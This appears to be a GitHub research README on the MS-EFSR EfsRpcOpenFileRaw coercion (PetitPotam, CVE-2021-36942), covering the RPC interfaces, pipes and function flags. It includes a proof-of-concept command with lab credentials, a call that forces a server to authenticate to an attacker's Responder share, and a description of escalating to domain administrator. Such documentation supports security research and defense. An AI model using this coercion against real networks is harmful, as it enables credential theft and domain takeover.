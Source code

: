 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

 - **Function operation number**: `0`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw("\\\\192.168.2.51\\share\\file.txt\x00", 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
    [in] handle_t binding_h,
    [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
    [in, string] wchar_t* FileName,
    [in] long Flags
);
```

 - **binding_h**: An explicit binding handle created by the client. This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **hContext**: An implementation-specific context handle that is used in subsequent calls by the client to the EfsRpcReadFileRaw method, EfsRpcWriteFileRaw method, or EfsRpcCloseRaw method.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **Flags**: This MUST be set to some combination of the following values. All servers and clients MUST support the CREATE_FOR_IMPORT flag. Servers that implement a hierarchical encrypted store, such as the NTFS file system, SHOULD also support the CREATE_FOR_DIR flag. Servers SHOULD support the OVERWRITE_HIDDEN flag, and MAY interpret it in implementation-specific ways. A client MUST ensure that all the flags it does not support are set to zero. A server MUST ignore all flags it does not support. Flag values are specified in the following table.
 
| Name | Value | Description |
|---|---|---|
| `CREATE_FOR_IMPORT` | `0x00000001` | Open the object for writing (that is, restore). If this flag is not set, open the object for reading (that is, backup). |
| `CREATE_FOR_DIR` | `0x00000002` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. It indicates that the object being restored is a container for other objects.<42> |
| `OVERWRITE_HIDDEN` | `0x00000004` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. This flag indicates a request from the client for the server to overwrite an existing object even if the existing object is "hidden". The meaning of "hidden" is specific to the implementation of the data store, and this meaning does not affect protocol behavior. |
| `EFS_DROP_ALTERNATE_STREAMS` | `0x00000010` | This flag indicates that content from any alternate data streams, if present and implemented by the storage system, will be ignored. |


## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcOpenFileRaw`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8


 - CVE-2021-36942 Windows LSA Spoofing Vulnerability: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942


 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Jul 18, 2021: https://twitter.com/topotam77/status/1416833996923809793